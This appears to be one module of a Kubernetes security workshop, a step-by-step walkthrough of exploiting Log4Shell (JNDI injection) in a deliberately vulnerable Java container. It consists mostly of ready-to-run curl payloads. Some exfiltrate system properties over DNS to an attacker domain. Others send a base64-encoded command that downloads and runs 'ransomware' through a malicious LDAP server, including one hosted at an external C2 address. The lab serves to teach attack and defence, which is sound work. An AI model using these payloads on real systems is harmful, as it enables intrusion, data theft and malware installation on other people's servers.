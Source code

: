 # Exploitation 

Let's exploit the vulnerable java-app workload.

## Get a shell to a running container

```
kubectl exec -it -n attack attack -- bash
```

Try a valid request to start

```
curl -v -H 'X-Api-Version: 1.0' 'java-app.java-app'
```

## Data exfiltration

```
curl -v -H \
  'X-Api-Version: ${jndi:dns://${sys:os.name}.${sys:os.version}.evildoer.xyz}' \
  'java-app.java-app'
```

Here are some other interesting properties you can access to fingerprint the target.

```
${sys:os.name}
${sys:os.version}
${sys:user.name}
${sys:user.dir}
${sys:java.version}
```

## Remote code execution

Create a base64 encoded playload to install our malware

```
echo -n 'wget evildoer.xyz/ransomware;chmod +x /ransomware;./ransomware' | base64
```

```
d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=
```

Append the output to the end of the JNDI lookup url

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/<PUT BASE64 ENCODED PAYLOAD HERE>} \
  'java-app.java-app'
```

So you end up with

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'java-app.java-app'

```

If you're running the malicious ldap server externally 

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://c2.evildoer.xyz:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'java-app.java-app'
```


[Next -> Module 7](mitigation.md)
